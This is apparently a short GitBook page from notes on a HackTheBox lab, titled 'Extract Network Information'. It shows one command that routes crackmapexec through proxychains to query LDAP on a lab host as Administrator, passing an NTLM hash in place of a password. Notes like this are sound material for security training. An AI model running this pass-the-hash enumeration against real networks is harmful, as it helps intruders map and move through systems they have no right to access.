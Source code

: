 ```yaml
---
cover: ../../.gitbook/assets/GitBook Covers (1).png
coverY: 0
---
```


# 🟢 Extract Network Information

{% code overflow="wrap" %}
```
┌──(kali㉿kali)-[~/HackTheBox/HTB_CyberNetics]
└─$ proxychains -q crackmapexec ldap 10.9.20.10 -u 'Administrator' -H '5a0618a9e03bd9fa9efbe142468afed5' -M get-network
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
